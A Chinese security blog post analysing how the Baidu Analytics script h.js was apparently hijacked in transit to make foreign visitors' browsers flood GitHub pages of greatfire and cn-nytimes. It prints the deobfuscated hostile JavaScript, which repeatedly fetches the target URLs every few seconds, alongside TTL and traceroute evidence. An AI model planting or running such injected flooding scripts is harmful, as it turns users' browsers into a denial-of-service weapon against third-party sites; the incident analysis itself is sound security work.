 # 百度统计js被劫持用来DDOS Github

0x00 背景
-------

* * *

今天中午刷着全国最大的信息安全从业人员同性交友社区zone.wooyun.org的时候，忽然浏览器每隔2秒就不断的弹窗：

```
malicious javascript detected on this domain

```

![enter image description here](http://drops.javaweb.org/uploads/images/b574faa3173f58b7bc9d5beb03f6ccf37c68f060.jpg)

我第一反应就是不知道哪个调皮的基友又把zone给XSS了，马上打开开发者工具分析。

0x01 细节
-------

* * *

之后立刻发现弹窗的js居然是从github加载的：

![enter image description here](http://drops.javaweb.org/uploads/images/74e15e0b19b6f40eb95a3876f7e6d28d0fb2eb87.jpg)

可是为什么乌云会从github加载js呢，并且还是从greatfire和纽约时报镜像加载。

第一反应是页面有xss或者js被劫持了，找了半天终于找到了，居然是

```
hm.baidu.com/h.js

```

这个js的确被乌云加载了没错，这是百度统计的js代码，打开后里面是一个简单加密后的js，eval了一串编码后的内容，随便找了个在线解密看了下，发现如下内容:

```
document.write("<script src='http://libs.baidu.com/jquery/2.0.0/jquery.min.js'>\x3c/script>");
!window.jQuery && document.write("<script src='http://code.jquery.com/jquery-latest.js'>\x3c/script>");
startime = (new Date).getTime();
var count = 0;

function unixtime() {
    var a = new Date;
    return Date.UTC(a.getFullYear(), a.getMonth(), a.getDay(), a.getHours(), a.getMinutes(), a.getSeconds()) / 1E3
}
url_array = ["https://github.com/greatfire/", "https://github.com/cn-nytimes/"];
NUM = url_array.length;

function r_send2() {
    var a = unixtime() % NUM;
    get(url_array[a])
}

function get(a) {
    var b;
    $.ajax({
        url: a,
        dataType: "script",
        timeout: 1E4,
        cache: !0,
        beforeSend: function() {
            requestTime = (new Date).getTime()
        },
        complete: function() {
            responseTime = (new Date).getTime();
            b = Math.floor(responseTime - requestTime);
            3E5 > responseTime - startime && (r_send(b), count += 1)
        }
    })
}

function r_send(a) {
    setTimeout("r_send2()", a)
}
setTimeout("r_send2()", 2E3);

```

大概功能就是关闭缓存后每隔2秒加载一次

```
url_array = ["https://github.com/greatfire/", "https://github.com/cn-nytimes/"];

```

里面的两个url

问了下墙内的小伙伴们，他们看到的js都是正常的，但是通过墙外ip访问

```
http://hm.baidu.com/h.js

```

就会得到上面的js文件，每隔2秒请求一下这两个url。

打开twitter看了下，似乎从3月18号以来Github就受到了DDoS攻击，之后greatfire把被攻击的页面内容换成了

```
alert("WARNING: malicious javascript detected on this domain")

```

以弹窗的方式阻止了js的循环执行。

![enter image description here](http://drops.javaweb.org/uploads/images/358f02154d284f92dfec3593fa6b898f17195fa7.jpg)

图3 国外ip traceroute到hm.baidu.com的记录

似乎DNS并没有被劫持，看来是像之前一样直接把IP劫持了或者直接在HTTP协议里替换文件。

![enter image description here](http://drops.javaweb.org/uploads/images/e46036a9cc01ece360fda26095cd4c9d2ab57e3d.jpg)

扫了下端口，只开了80和443，通过https协议访问后是正常的空页面(只有带referer才会出现js文件)。

![enter image description here](http://drops.javaweb.org/uploads/images/ffd500f879953a80b247e7ea304bb3c1ce8918ea.jpg)

作者要进行抓包分析时劫持已经停止，在[twitter](https://twitter.com/mac_zhou/status/581324446058713088)上看到有人已经分析过引用如下：

> 抓包跟踪，正常百度服务器返回给我日本VPS的TTL为51， RESP返回HTTP 200 OK的报文的TTL是47，可以确定的是有中间设备对VPS发了伪造报文。

![enter image description here](http://drops.javaweb.org/uploads/images/4193acfe89378cc646cbb617efeba7e008627491.jpg)

真是无耻，呵呵

忽然想起一句话,之前DNS被劫持到外国服务器的时候某站长说的:

```
They have weaponized their entire population.

```

现在应该是:

`They have weaponized their entire population of the Earth.`